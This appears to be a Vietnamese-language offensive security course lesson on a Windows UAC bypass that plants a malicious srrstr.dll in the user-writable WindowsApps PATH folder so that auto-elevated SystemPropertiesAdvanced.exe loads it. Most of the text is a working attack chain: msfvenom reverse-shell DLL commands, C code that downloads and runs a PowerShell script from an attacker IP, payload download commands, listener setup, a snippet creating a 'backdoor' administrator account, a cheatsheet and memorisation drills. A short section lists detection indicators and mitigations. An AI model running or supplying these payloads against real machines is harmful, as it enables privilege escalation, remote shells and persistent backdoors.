

> **Prerequisites**: [[01-uac-internals|01. UAC Internals]] · [[02-auto-elevation-mechanism|02. Auto-Elevation Mechanism]]
> **Objectives**:
> - Hiểu DLL search order và tại sao %LOCALAPPDATA%\Microsoft\WindowsApps là điểm yếu
> - Biên dịch malicious DLL hoặc dùng msfvenom để tạo srrstr.dll
> - Thực hiện SystemPropertiesAdvanced DLL hijack không cần IFileOperation
> - Nắm tại sao technique này không cần drop DLL vào System32

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - User trong local Administrators group (Medium Integrity)
> - UAC mặc định (level 5) — technique hoạt động, nhưng **cũng hoạt động ở level 2 (Always Notify)** vì không cần trigger auto-elevation thông thường
> - Windows 10 (64-bit — SystemPropertiesAdvanced.exe là x64 binary)
> - Cần viết được file DLL vào `%LOCALAPPDATA%\Microsoft\WindowsApps\`

> [!tip] Ưu điểm lớn
> Kỹ thuật này **không cần IFileOperation** (không cần copy vào System32), không cần registry hijack. Chỉ cần write một DLL vào folder mà user có quyền write — ít registry noise hơn, không cần `DelegateExecute` trick.

---

## Cơ chế tấn công

![[img-07-dll-search-order.svg]]
*Hình 1: DLL search order và attack path qua SystemPropertiesAdvanced.exe → srrstr.dll trong WindowsApps*

### DLL Search Order — Cơ sở lý thuyết

Khi Windows process load DLL, nó tìm kiếm theo thứ tự:

1. **KnownDLLs** (registry whitelist — không thể inject vào đây)
2. **Same directory** as the calling EXE
3. **System32** (`C:\Windows\System32\`)
4. **System directory** (`C:\Windows\System\`)
5. **Windows directory** (`C:\Windows\`)
6. **Current working directory**
7. **%PATH% directories** — đây là điểm khai thác

**Điểm yếu**: `%PATH%` mặc định trong Windows 10+ bao gồm `%LOCALAPPDATA%\Microsoft\WindowsApps\` — folder này **hoàn toàn writable bởi user hiện tại** ở Medium Integrity.

### SystemPropertiesAdvanced.exe và srrstr.dll

`SystemPropertiesAdvanced.exe` (System Properties → Advanced tab) có `autoElevate=true`. Khi chạy, nó cố load `srrstr.dll` (System Restore UI) thông qua DLL search order.

`srrstr.dll` không tồn tại trong `System32` — khi process tìm không thấy ở các vị trí trước, nó tiếp tục tìm trong `%PATH%`, và đến `%LOCALAPPDATA%\Microsoft\WindowsApps\`.

Attacker đặt malicious `srrstr.dll` vào đó. `SystemPropertiesAdvanced.exe` (đã ở High Integrity) load DLL của attacker → `DllMain` chạy với High Integrity.

### Xác nhận %PATH% bao gồm WindowsApps

```powershell
$env:PATH -split ";" | Where-Object { $_ -match "WindowsApps" }
# Expected output: C:\Users\<user>\AppData\Local\Microsoft\WindowsApps
```

Nếu path không có → fallback: dùng phương pháp copy DLL vào cùng folder với binary (Lesson 08).

---

## Quy trình tấn công

**Môi trường giả định**: Medium Integrity shell, Windows 10 64-bit, Kali Linux để compile DLL.

### Bước 1 — Tạo malicious srrstr.dll

**Option A — msfvenom (nhanh nhất)**

```bash
# Trên Kali/attacker machine
msfvenom -p windows/x64/shell_reverse_tcp \
    LHOST=10.10.14.1 LPORT=4444 \
    -f dll \
    -o srrstr.dll
```

**Option B — Compile DLL custom (tốt hơn về AV evasion)**

```c
// srrstr.c
#include <windows.h>
#include <stdio.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
        case DLL_PROCESS_ATTACH:
            // Reverse shell hoặc command tùy ý
            WinExec("cmd.exe /c powershell -nop -w hidden -c "
                    "\"IEX(New-Object Net.WebClient).DownloadString"
                    "('http://10.10.14.1/rev.ps1')\"", 0);
            break;
    }
    return TRUE;
}
```

Compile cross-platform từ Linux:

```bash
x86_64-w64-mingw32-gcc -shared -o srrstr.dll srrstr.c -lws2_32
```

**Option C — DLL dùng sẵn từ meterpreter session**

```bash
# Nếu đã có meterpreter session ở Medium Integrity
meterpreter > use post/multi/manage/shell_to_meterpreter
# Rồi dùng local exploit suggester để generate payload
```

### Bước 2 — Upload DLL lên target

```powershell
# Từ reverse shell (Medium Integrity)
# Cách 1: certutil download
certutil.exe -urlcache -split -f "http://10.10.14.1/srrstr.dll" srrstr.dll

# Cách 2: PowerShell download
Invoke-WebRequest -Uri "http://10.10.14.1/srrstr.dll" -OutFile "srrstr.dll"

# Cách 3: SMB (nếu có impacket server)
# Attacker: impacket-smbserver share . -smb2support
copy \\10.10.14.1\share\srrstr.dll srrstr.dll
```

### Bước 3 — Copy vào WindowsApps

```powershell
# Kiểm tra path
$targetPath = "$env:LOCALAPPDATA\Microsoft\WindowsApps"
Test-Path $targetPath

# Copy
Copy-Item ".\srrstr.dll" "$targetPath\srrstr.dll"

# Verify
Test-Path "$targetPath\srrstr.dll"
```

> **Expected output**: `True` — DLL đã đặt ở đúng vị trí.

### Bước 4 — Setup listener

Trên Kali/attacker:

```bash
# Nếu dùng msfvenom payload
msfconsole -q -x "use multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST 10.10.14.1; set LPORT 4444; exploit"

# Hoặc nc
nc -lvnp 4444
```

### Bước 5 — Trigger SystemPropertiesAdvanced.exe

```cmd
start C:\Windows\System32\SystemPropertiesAdvanced.exe
```

> **Expected output**: Callback xuất hiện trên listener. `whoami /priv` trong shell mới sẽ cho thấy SeDebugPrivilege enabled.

### Bước 6 — Cleanup

```powershell
Remove-Item "$env:LOCALAPPDATA\Microsoft\WindowsApps\srrstr.dll" -Force
```

---

## Biến thể & Bypass

### Các SystemProperties binaries khác

`SystemPropertiesAdvanced.exe` không phải là binary duy nhất. Các binary `SystemProperties*.exe` đều có `autoElevate=true` và cùng tìm `srrstr.dll`:

```text
SystemPropertiesAdvanced.exe
SystemPropertiesComputerName.exe
SystemPropertiesDataExecutionPrevention.exe
SystemPropertiesHardware.exe
SystemPropertiesPerformance.exe
SystemPropertiesProtection.exe
SystemPropertiesRemote.exe
```

Nếu một binary bị block, thử binary khác trong list.

### egre55 technique — sẽ không cần %PATH%

Technique gốc của `@egre55` đặt DLL vào **%USERPROFILE%\AppData\Local\Microsoft\WindowsApps** — chính là `%LOCALAPPDATA%\Microsoft\WindowsApps`. Tuy nhiên một số phiên bản Windows 11 mới hơn thêm restriction cho folder này.

Fallback: kiểm tra toàn bộ `%PATH%` entries nào writable:

```powershell
$env:PATH -split ";" | Where-Object {
    $p = $_
    try {
        $acl = Get-Acl $p -ErrorAction Stop
        $acl.Access | Where-Object {
            $_.IdentityReference -match "Users|Everyone|Authenticated" -and
            $_.FileSystemRights -match "Write|FullControl"
        }
        Write-Output "[WRITABLE] $p"
    } catch {}
}
```

### Phiên bản không cần internet (fully offline)

Nếu target không có internet và không thể download DLL, compile DLL trực tiếp từ PowerShell:

```powershell
# Compile DLL via Add-Type (cần .NET)
$code = @"
using System;
using System.Runtime.InteropServices;
using System.Diagnostics;

public class SrrstDll {
    [DllImport("kernel32.dll")]
    static extern IntPtr LoadLibrary(string lpFileName);

    static SrrstDll() {
        Process.Start("cmd.exe", "/c net user backdoor P@ssw0rd /add && net localgroup administrators backdoor /add");
    }
}
"@
Add-Type -TypeDefinition $code -OutputAssembly "$env:LOCALAPPDATA\Microsoft\WindowsApps\srrstr.dll"
```

---

## Cây quyết định



---

## Command Cheatsheet

**Tạo DLL (attacker machine)**

```bash
# msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -f dll -o srrstr.dll

# Cross-compile custom
x86_64-w64-mingw32-gcc -shared -o srrstr.dll payload.c -lws2_32
```

**Upload và place (target — Medium Integrity)**

```powershell
# Download
Invoke-WebRequest -Uri "http://ATTACKER_IP/srrstr.dll" -OutFile ".\srrstr.dll"

# Place
Copy-Item ".\srrstr.dll" "$env:LOCALAPPDATA\Microsoft\WindowsApps\srrstr.dll"

# Verify
Test-Path "$env:LOCALAPPDATA\Microsoft\WindowsApps\srrstr.dll"
```

**Trigger**

```cmd
start C:\Windows\System32\SystemPropertiesAdvanced.exe
```

**Cleanup**

```powershell
Remove-Item "$env:LOCALAPPDATA\Microsoft\WindowsApps\srrstr.dll" -Force
```

**Kiểm tra writable PATH**

```powershell
$env:PATH -split ";" | Where-Object { Test-Path $_ -PathType Container } |
    ForEach-Object { if ((Get-Acl $_).Access | Where-Object { $_.FileSystemRights -match "Write" }) { $_ } }
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày.

**Drill 1 — Nhớ đường dẫn đích**
Mục tiêu: nhớ `%LOCALAPPDATA%\Microsoft\WindowsApps` không cần lookup.

```powershell
# Xác nhận bằng lệnh
echo $env:LOCALAPPDATA\Microsoft\WindowsApps
# = C:\Users\<user>\AppData\Local\Microsoft\WindowsApps
```

Luyện cho đến khi: gõ path đầy đủ mà không cần dùng `%LOCALAPPDATA%` shorthand.

**Drill 2 — msfvenom DLL**
Mục tiêu: nhớ syntax msfvenom tạo DLL.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o srrstr.dll
```

Luyện cho đến khi: gõ command mà không cần xem cheatsheet, đặc biệt nhớ `-f dll` và `-o`.

**Drill 3 — Full attack chain**
Mục tiêu: thực hiện toàn bộ flow dưới 3 phút.

1. `msfvenom` → tạo `srrstr.dll`
2. Host via `python3 -m http.server 80`
3. `Invoke-WebRequest` trên target
4. `Copy-Item` vào WindowsApps
5. `start SystemPropertiesAdvanced.exe`
6. Verify High Integrity
7. Cleanup

Luyện cho đến khi: hoàn thành 7 bước không cần nhìn notes.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **File**: Drop `srrstr.dll` vào `%LOCALAPPDATA%\Microsoft\WindowsApps\` là rất suspicious
> - Sysmon Event ID 11: `TargetFilename: *WindowsApps\srrstr.dll*`
>
> **DLL Load**: `SystemPropertiesAdvanced.exe` load DLL từ path ngoài System32
> - Sysmon Event ID 7: `ImageLoaded: *WindowsApps*srrstr.dll*`
> - Elastic: `dll.path : "*WindowsApps*"` từ process SYSTEM integrity
>
> **Process**: `SystemPropertiesAdvanced.exe` spawn cmd.exe/powershell.exe là bất thường
> - Sysmon Event ID 1: `ParentImage: *SystemPropertiesAdvanced.exe*`
>
> **Defender rule**: Non-Microsoft DLL loaded by auto-elevated process từ non-System32 path

> [!note] Mitigation
> - Remove `%LOCALAPPDATA%\Microsoft\WindowsApps\` khỏi `%PATH%` (có thể break some Store apps)
> - Monitor DLL load từ user profile directories vào elevated processes
> - Windows Defender Application Control (WDAC): whitelist DLLs cho System Properties binaries
> - AppLocker: restrict `SystemProperties*.exe` execution nếu không cần

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Arkham** (Retired) | `egre55`'s exact technique — SystemPropertiesAdvanced DLL hijack used in intended solution |
| Local VM | Windows 10 64-bit | Test với cả msfvenom và custom DLL, quan sát trong Procmon và Sysmon |
| HTB | **Endgame XEN** (Retired) | DLL-based UAC bypass chain trong complex environment |
| Local VM | Windows 11 | Verify technique còn work, tìm writable path thay thế nếu WindowsApps bị restrict |

---

## Field Manual Entry

> [!abstract] SystemPropertiesAdvanced.exe DLL Hijack
> **Điều kiện**: User trong Admins, Windows 10/11, WindowsApps trong %PATH%
> **Ưu điểm**: Không registry noise, không IFileOperation, không cần System32 write
> **Attack flow**:
> ```bash
> # 1. Create DLL (attacker)
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -f dll -o srrstr.dll
> # 2. Upload to target (Medium Integrity)
> Invoke-WebRequest -Uri http://IP/srrstr.dll -OutFile srrstr.dll
> # 3. Place in WindowsApps
> Copy-Item .\srrstr.dll $env:LOCALAPPDATA\Microsoft\WindowsApps\srrstr.dll
> # 4. Trigger
> start SystemPropertiesAdvanced.exe
> # 5. Cleanup
> Remove-Item $env:LOCALAPPDATA\Microsoft\WindowsApps\srrstr.dll
> ```
> **Fallback**: Thay bằng `SystemPropertiesProtection.exe`, `SystemPropertiesRemote.exe`
> **Ref**: [[07-dll-hijack-systemproperties|07. DLL Hijack — SystemPropertiesAdvanced]]
